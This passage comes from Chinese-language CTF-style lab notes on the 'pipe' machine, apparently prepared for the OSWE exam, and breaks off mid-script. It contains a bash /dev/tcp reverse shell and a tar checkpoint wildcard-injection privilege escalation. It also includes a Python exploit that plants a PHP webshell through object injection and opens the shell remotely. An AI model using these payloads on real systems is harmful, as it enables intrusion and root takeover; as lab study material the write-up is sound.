所以如果我们创建一个sh文件，让tar在root权限的情况利用`checkpoint-action`执行sh脚本，即可实现提权。

`shell.sh`

```bash
www-data@pipe:/home/rene/backup$ echo "bash -c 'exec bash -i &>/dev/tcp/192.168.1.13/19998 <&1'" > shell.sh

bash -c 'exec bash -i &>/dev/tcp/192.168.1.13/19998 <&1'
```

随后创建两个空文件，但是名称为恶意参数:

```shell
touch "/home/rene/backup/--checkpoint-action=exec=sh shell.sh"
touch "/home/rene/backup/--checkpoint=1"
```

![](/Users/ebounce/learning/刷靶机笔记/pipe/20.png)

当然别忘了给`shell.sh`执行权限

```shell
chmod +x shell.sh
```

由于通配符的作用，该目录下的所有文件都会匹配上，等同于执行

```shell
tar cfz /home/rene/backup/backup.tar.gz --checkpoint-action=exec=sh shell.sh
tar cfz /home/rene/backup/backup.tar.gz --checkpoint=1
```

因为tar被定义好了检查操作，因此在包含完这两个恶意文件之后，下一次文件写入时就会触发反弹shell的操作,我们只需要远程监听，并且`/etc/crontab`中的定时任务触发即可，这里为每5分钟触发一次:

![](/Users/ebounce/learning/刷靶机笔记/pipe/19.png)

![](/Users/ebounce/learning/刷靶机笔记/pipe/=18.png)

拿到root权限，查看flag，

## 编写exp

### python

由于是准备`oswe`考试，因此我们还需要编写一键shell的脚本，这里用python

```python
import os
import urllib.parse
import requests


def web_exp():
    r = requests.post("http://192.168.1.20/index.php", data={
        "param": 'O:3:"Log":2:{s:8:"filename";s:32:"/var/www/html/scriptz/shell2.php";s:4:"data";s:54:"<?php echo "<p>"; system($_GET["ok"]); echo "<p\>"; ?>";}'})
    print(f"Write Webshell Successfully")
    r1 = requests.get("http://192.168.1.20/scriptz/shell2.php?ok=" + urllib.parse.quote(
        'touch "/home/rene/backup/--checkpoint-action=exec=sh shell2.sh"', "utf=8"))
    r2 = requests.get(
        "http://192.168.1.20/scriptz/shell2.php?ok=" + urllib.parse.quote('touch "/home/rene/backup/--checkpoint=1"',
                                                                          "utf=8"))
    r3 = requests.get("http://192.168.1.20/scriptz/shell2.php?ok=" + urllib.parse.quote(
        'echo "bash -c \'exec bash -i &>/dev/tcp/192.168.1.13/20000 <&1\'" > /home/rene/backup/shell2.sh', "utf=8"))
    r4 = requests.get(
```